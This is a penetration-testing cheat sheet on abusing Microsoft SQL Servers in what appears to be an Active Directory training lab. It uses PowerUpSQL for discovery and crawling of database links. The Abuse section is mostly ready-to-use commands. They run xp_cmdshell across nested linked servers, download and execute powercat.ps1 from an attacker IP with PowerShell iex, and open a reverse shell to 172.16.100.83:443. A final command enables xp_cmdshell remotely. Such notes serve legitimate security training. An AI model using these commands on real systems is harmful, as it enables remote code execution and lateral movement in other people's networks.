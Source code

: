 # MSSQL Servers

## Tools

[PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)includes functions that support SQL Server discovery, weak configuration auditing, privilege escalation on scale, and post exploitation actions such as OS command execution.

{% embed url="https://github.com/NetSPI/PowerUpSQL" %}

## Enumeration

```powershell
# SPN
Get-SQLInstanceDomain

# Check Access
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded 

# Information
Get-SQLInstanceDomain | Get-SQLServerInfo
```

### Database Links

A database link allows a SQL Server to access external data sources like other SQL Servers and Data Source Objects (OLE DB).

In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures even across forest trusts.

<pre class="language-powershell"><code class="lang-powershell"><strong># find links to remote machine
</strong>Get-SQLServerLink -Instance dcorp-mssql
# Using HeidiSQL
select * from master..sysservers

# database links
Get-SQLServerLinkCrawl -Instance dcorp-mssql 
# Using HeidiSQL 
select * from openquery("DCORP-SQL1", 'select * from openquery("DCORP-MGMT",''select * from master..sysservers'')')

</code></pre>

## Abuse

We can use links to execute commands across database links where Sysadmin set to 1

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget eu-sql
# Using HeidiSQL 
SELECT *
FROM OPENQUERY("dcorp-sql1", '
    SELECT * 
    FROM OPENQUERY("dcorp-mgmt", ''
       SELECT *
       FROM OPENQUERY("EU-SQL32.EU.EUROCORP.LOCAL",''''
           SELECT @@version AS version;
           EXEC master..xp_cmdshell "powershell iex (iwr http://172.16.100.83/powercat.ps1 -UseBasicParsing)";
       '''') 
    '')
')


# revshell example
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex ((New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1;powercat -c 172.16.100.83 -p 443 -e powershell''));"' -QueryTarget eu-sql32

```

In case that  `rpcout` is enabled (disabled by default), xp\_cmdshell can be enabled using:

```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```
